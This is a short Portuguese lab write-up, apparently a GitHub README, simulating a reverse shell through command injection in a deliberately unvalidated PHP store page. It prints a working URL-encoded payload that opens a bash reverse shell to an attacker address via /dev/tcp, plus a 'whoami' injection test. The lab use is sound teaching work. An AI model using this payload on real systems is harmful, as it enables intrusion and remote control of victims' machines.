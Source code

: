# Introdução

Aqui, faremos uma simulação de Reverse Shell, que em resumo, é uma técnica que invasores utilizam para executar códigos na máquina da vítima, o processo é feito processo processo inverso: o atacante faz um comando para ouvir conexões em uma porta especifica, e faz a máquina interna se conectar a máquina exterior do atacante. Aqui, utilizaremos o comando ncat para escutar uma porta específica, e de técnicas de Command Injection.


# Contexto

Para simularmos o ataque, primeiramente é criado um script simples de php, simulando uma url de website de uma loja que posuenm produtos, porém, com nenhuma validação ou sanitização de entrada aceitando qualquer entrada do usuário.

Dito isso, primeiro faremos o teste para o command injection:
![Screenshot From 2025-07-03 00-58-59](https://github.com/user-attachments/assets/a8b54327-77a2-44fe-9fb8-332f19bc9910)

Em vez de um ID de produto colocamos "whoami" que retornou com sucesso.

portanto, executaremos primeiro vamos preparar um listener no kali: 

![image](https://github.com/user-attachments/assets/59fd1404-7254-4243-ab66-82c0a5d69f15)


E agora, utilizaremos esse payload:

```
http://1.1.1.1/loja.php?produto=bash+-c+%27bash+-i+%3E%26+/dev/tcp/1.1.1.2/4444+0%3E%261%27
```

que executa um comando um bash que abre uma shell remota, permitindo executar comandos.

![Screenshot From 2025-07-03 01-26-02](https://github.com/user-attachments/assets/87cba5bd-f60a-4d1c-b45b-11b57a386ab5)


> Observação: o Snort foi desativado nessa simulação, caso estivesse ligado, o IP do atacante seria bloqueado e gerado os seguintes alertas:

![image](https://github.com/user-attachments/assets/434b4cc1-2170-4459-a57e-5a2226e2ac66)
